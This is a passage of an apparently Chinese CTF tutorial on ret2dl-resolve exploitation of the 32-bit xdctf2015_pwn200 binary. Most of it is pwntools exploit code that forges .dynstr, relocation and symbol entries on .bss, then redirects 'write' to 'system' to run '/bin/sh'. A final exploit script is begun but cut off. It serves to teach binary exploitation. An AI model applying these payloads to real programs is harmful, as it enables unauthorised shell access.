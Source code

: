 ```python
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
```

第五步，伪造`.bss` 上伪造`.dynstr`,放入伪造函数名`write`。相应调整st_name指向的伪造函数名。

```python
cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_sym=index_dynsym << 8
r_type=0x7
r_info = (r_sym) | r_type
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 16) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += "write\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
```

最后改'write'为system.

## 例题：xdctf2015_pwn200

按之前手动的分析，完整exp：

```python


from pwn import *
elf = ELF('./bof')

offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size
```